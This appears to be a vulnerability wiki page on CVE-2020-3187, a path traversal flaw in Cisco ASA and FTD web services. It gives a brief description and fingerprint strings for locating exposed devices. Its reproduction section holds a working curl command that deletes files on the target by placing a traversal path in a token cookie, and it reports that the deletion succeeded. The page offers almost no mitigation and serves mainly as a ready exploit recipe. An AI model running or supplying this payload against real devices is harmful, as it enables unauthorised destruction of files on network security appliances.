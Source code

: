 # Cisco ASA device arbitrary file deletion vulnerability CVE-2020-3187

## Vulnerability Description

There is a path traversal vulnerability in the Web service interfaces in Cisco ASA Software and FTD Software, which originated from the program not performing correct input verification of HTTP URLs. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco ASA device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-1.png)



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco FTD device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-2.png)

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">/+CSCOE+/</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco-ASA</span>

## Vulnerability reappears


</a-alert>
<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-6.png)



For example, we delete an image http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-7.png)



Use curl to send requests



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-8.png)



Icons successfully deleted